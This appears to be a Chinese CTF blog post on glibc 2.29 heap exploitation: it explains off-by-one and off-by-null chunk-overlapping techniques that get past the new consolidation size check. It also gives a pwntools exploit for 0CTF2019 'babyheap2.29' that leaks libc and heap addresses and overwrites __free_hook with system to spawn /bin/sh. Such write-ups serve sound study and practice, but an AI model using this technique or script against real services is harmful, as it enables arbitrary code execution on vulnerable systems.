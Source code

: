 ```yaml
---
clayout: post
title:  "glibc2.29-off by one"
date:   2020-2-19
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


#glibc2.29-off by one

## glibc2.29 unlink

```c
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
  unlink_chunk (av, p);
}
```
相比2.27，新增

```c
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

在2.27中，off by null有一种overlapping方法

1. malloc A B C，freeA，A进unsorted bin
2. 在B中伪造C的prev_size，off by null覆盖C的prev_inuse
3. free C，A、B、C unlink
4. malloc，把A、B、C取回来，之前的B并没有free，就得到了两个B

在第三步，根据C的prev_size找到A，然后直接unlink

在2.29中，新增了对size的检查，第三步，根据C的prev_size找到A，然后检查A的size和prev_size是否相等，不相等直接gg，如果👴想像2.27一样overlapping，👴还需要去伪造A的size

## 解决方案

### off by one

众所周知off by one比off by null白给，如果是off by one，👴就能在A前面的chunk中off by one改A的size

1. malloc X A B C，freeA，A进unsorted bin
2. 在X中off by one改Asize
3. 在B中伪造C的prev_size，off by one把C prev_inuse改成0
4. free C，A、B、C unlink
5. malloc，把A、B、C取回来，得到两个B

### off by null

伪造一个unsorted bin，再伪造prev_size，unlink时根据prev_size找到伪造的chunk，过check

伪造unsorted bin时fd和bk指向自己，fd->bk = bk->fd，这种方法需要堆地址白给

1. malloc A B C
2. 在A中伪造fake chunk，size和将要伪造的prev_size相同，fd和bk都指向自己
3. 在B中伪造C的prev_size，off by one把C prev_inuse改成0
4. free C，fake chunk、B、C unlink
5. malloc，把fake chunk、B、C 取回来，得到两个B

#### 0CTF2019 Final babyheap2.29

edit存在off by null

add和edit分开，可以add free add show泄露heap和libc

伪造

```c
pwndbg> x/128gx 0x555555559f50
0x555555559f50:	0x0000000000000000	0x0000000000000101//10
0x555555559f60:	0x0000000000000000	0x00000000000001f1//fake
0x555555559f70:	0x0000555555559f60	0x0000555555559f60//fake_fd fake_bk
0x555555559f80:	0x0000000000000000	0x0000000000000000
0x555555559f90:	0x0000000000000000	0x0000000000000000
0x555555559fa0:	0x0000000000000000	0x0000000000000000
0x555555559fb0:	0x0000000000000000	0x0000000000000000
0x555555559fc0:	0x0000000000000000	0x0000000000000000
0x555555559fd0:	0x0000000000000000	0x0000000000000000
0x555555559fe0:	0x0000000000000000	0x0000000000000000
0x555555559ff0:	0x0000000000000000	0x0000000000000000
0x55555555a000:	0x0000000000000000	0x0000000000000000
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000000
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000000000
0x55555555a050:	0x0000000000000000	0x0000000000000101//11
0x55555555a060:	0x6161616161616161	0x6161616161616161
0x55555555a070:	0x6161616161616161	0x6161616161616161
0x55555555a080:	0x6161616161616161	0x6161616161616161
0x55555555a090:	0x6161616161616161	0x6161616161616161
0x55555555a0a0:	0x6161616161616161	0x6161616161616161
0x55555555a0b0:	0x6161616161616161	0x6161616161616161
0x55555555a0c0:	0x6161616161616161	0x6161616161616161
0x55555555a0d0:	0x6161616161616161	0x6161616161616161
0x55555555a0e0:	0x6161616161616161	0x6161616161616161
0x55555555a0f0:	0x6161616161616161	0x6161616161616161
0x55555555a100:	0x6161616161616161	0x6161616161616161
0x55555555a110:	0x6161616161616161	0x6161616161616161
0x55555555a120:	0x6161616161616161	0x6161616161616161
0x55555555a130:	0x6161616161616161	0x6161616161616161
0x55555555a140:	0x6161616161616161	0x6161616161616161
0x55555555a150:	0x00000000000001f0	0x0000000000000100//12
0x55555555a160:	0x0000000000000000	0x0000000000000000
0x55555555a170:	0x0000000000000000	0x0000000000000000
0x55555555a180:	0x0000000000000000	0x0000000000000000
0x55555555a190:	0x0000000000000000	0x0000000000000000
//0x55555555a150 - 0x1f0 = 0x555555559f60
```

overlapping，uaf，改fd打free_hook

```python
from pwn import *

r = process('./babyheap2.29')
elf = ELF('./babyheap2.29')
libc = ELF('libc-2.29.so')

def add(size):
    r.sendlineafter('Command: ','1')
    r.sendlineafter('Size: ',str(size))

def edit(index,content):
    r.sendlineafter('Command: ','2')
    r.sendlineafter('Index: ',str(index))
    r.sendlineafter('Size: ',str(len(content)))
    r.sendafter('Content: ',content)

def free(index):
    r.sendlineafter('Command: ','3')
    r.sendlineafter('Index: ',str(index))

def show(index):
    r.sendlineafter('Command: ','4')
    r.sendlineafter('Index: ',str(index))


add(0x500)
add(0x40)
free(0)
add(0x500)
show(0)
r.recvuntil(']: ')
leak = u64(r.recvuntil('\n',drop=True).ljust(8, '\x00'))
libc_base = leak - 0x1e4ca0
log.success(hex(libc_base))

add(0x40)
add(0x40)
free(1)
free(2)
add(0x40)#1
show(1)
r.recvuntil(']: ')
heap_base = u64(r.recvuntil('\n',drop=True).ljust(8, '\x00'))-0x770
log.success(hex(heap_base))


for i in range(13):
  add(0xf8)

free(2)
for i in range(4,10):
  free(i)


edit(11,'a'*0xf0 + p64(0x1f0))

fake = p64(0x0)+p64(0x1f1)+p64(heap_base+0xf60)+p64(heap_base+0xf60)
edit(10,fake)
r.interactive()

free(12)
add(0xe8)
for i in range(7):
    add(0xf8)
    log.info(r.recvline())
free(1)
add(0xf8)#1


free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']

log.success(hex(free_hook))
free(4)
free(5)
free(6)

free(11)
edit(1,p64(free_hook))
add(0xf8)
add(0xf8)#5
log.info(r.recvline())
edit(5,p64(system))
edit(7,'/bin/sh\x00')
free(7)
r.interactive()

```



### 无堆地址off by null

large bin残留指针+heap fengshui
